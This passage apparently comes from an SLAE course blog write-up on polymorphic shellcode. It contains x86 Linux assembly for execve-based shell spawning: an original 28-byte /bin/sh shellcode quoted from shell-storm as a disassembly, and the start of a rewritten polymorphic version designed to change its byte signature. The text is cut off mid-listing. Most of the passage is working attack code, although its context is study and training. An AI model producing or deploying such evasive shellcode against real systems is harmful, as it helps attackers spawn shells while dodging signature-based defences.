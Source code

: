 ```
	push 0x6e69622f ;nib/
	push 0x7273752f ;rsu/
	mov ebx, esp ; they then get moved into ebx
	push esi ; push a null
	mov esi, ecx ; move ecx args into esi (0x0,0x63636363)
	push esi
	push ebx
	mov ecx, esp
	int 0x80
	inc edx
	mov eax, edx
	int 0x80
```

![shellcode1](/assets/images/SLAE_6/1.JPG)

#### Shellcode 2:

Next a shell-spawn, a simple /bin/sh

[http://shell-storm.org/shellcode/files/shellcode-811.php](http://shell-storm.org/shellcode/files/shellcode-811.php)

Rather than simply pushing on /bin//sh like a boring pleb, we will reduce the value by 0x10 (16) and then increment via a loop.

Our polymorphic version is 8 bytes longer, keeping us under the threshold at 128% larger

##### Original: 
`Shellcode length: 28`
```
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
```
##### Polymorphic:
`Shellcode length: 36`
```
global _start			

section .text
_start:
    xor ecx, ecx
    mul ecx ; this one instruction sets both eax and edx to 0, this is because mul
    push eax
    mov cl, 16
```